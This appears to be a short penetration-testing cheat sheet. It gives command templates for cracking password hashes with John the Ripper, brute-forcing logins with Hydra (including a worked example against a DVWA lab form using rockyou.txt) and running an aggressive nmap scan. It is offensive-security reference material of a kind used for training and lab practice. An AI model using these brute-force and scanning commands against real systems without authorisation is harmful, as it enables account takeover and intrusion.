 # <p align=center>John The Ripper</p>

### Bruteforce File
```
john --wordlist=[WORDLIST] [FILE]
```
### Show Format List
```
john --list=formats
```
### Bruteforce Hash
```
john --formats=[HASH] [FILE]
```

# <p align=center>Hydra</p>

### Bruteforce Password
```
hydra -V -l [USERNAME] -P [WORDLIST] [IP VICTIM] [PROTOCOL]
```
### Bruteforce Via HTTP
```
hydra -V -l [USERNAME] -P [WORDLIST] [IP VICTIM] http-[REQUEST METHOD]-form "[PATH]:[REQUEST BODY]:[INCORRECT ALERT]"
```
Example :
```
hydra -V -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.10 http-get-form "/DVWA/vulnerabilities/brute:username=admin&password=^PASS^:Username and/or password incorrect."
```

# <p align=center>NMAP</p>

### Aggresive & Verbose Scan
```
nmap -v -A [IP]  
```
